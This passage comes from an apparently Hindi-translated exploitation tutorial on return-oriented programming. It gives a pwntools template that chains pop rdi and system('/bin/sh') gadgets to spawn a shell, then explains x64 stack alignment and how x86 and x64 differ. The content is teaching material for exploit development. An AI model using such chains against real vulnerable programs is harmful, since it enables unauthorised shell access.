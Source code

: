 ```python
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
In this example:

* हम **`pop rdi; ret`** गैजेट का उपयोग करते हैं ताकि **`RDI`** को **`"/bin/sh"`** के पते पर सेट किया जा सके।
* हम **`RDI`** सेट करने के बाद सीधे **`system()`** पर कूदते हैं, जिसमें **system()** का पता श्रृंखला में होता है।
* यदि लक्षित वातावरण की आवश्यकता हो, तो संरेखण के लिए **`ret_gadget`** का उपयोग किया जाता है, जो **x64** में कार्यों को कॉल करने से पहले उचित स्टैक संरेखण सुनिश्चित करने के लिए अधिक सामान्य है।

### Stack Alignment

**x86-64 ABI** सुनिश्चित करता है कि जब **call instruction** निष्पादित होती है, तो **stack 16-byte aligned** हो। **LIBC**, प्रदर्शन को अनुकूलित करने के लिए, **SSE instructions** (जैसे **movaps**) का उपयोग करता है जो इस संरेखण की आवश्यकता होती है। यदि स्टैक ठीक से संरेखित नहीं है (जिसका अर्थ है कि **RSP** 16 का गुणांक नहीं है), तो **ROP chain** में **system** जैसे कार्यों के लिए कॉल विफल हो जाएंगे। इसे ठीक करने के लिए, अपने ROP श्रृंखला में **system** को कॉल करने से पहले बस एक **ret gadget** जोड़ें।

## x86 vs x64 मुख्य अंतर

{% hint style="success" %}
चूंकि **x64 पहले कुछ तर्कों के लिए रजिस्टर का उपयोग करता है,** इसलिए यह अक्सर सरल कार्य कॉल के लिए x86 की तुलना में कम गैजेट की आवश्यकता होती है, लेकिन सही गैजेट खोजने और श्रृंखला में जोड़ने में अधिक जटिलता हो सकती है क्योंकि रजिस्टर की संख्या और पता स्थान बढ़ जाता है। **x64** आर्किटेक्चर में रजिस्टर की बढ़ी हुई संख्या और बड़े पते के स्थान ने विशेष रूप से Return-Oriented Programming (ROP) के संदर्भ में शोषण विकास के लिए अवसर और चुनौतियाँ दोनों प्रदान की हैं।
{% endhint %}

## ROP chain in ARM64 Example

### **ARM64 मूल बातें और कॉलिंग सम्मेलन**

इस जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{% content-ref url="../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md" %}
[arm64-basic-assembly.md](../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md)
{% endcontent-ref %}
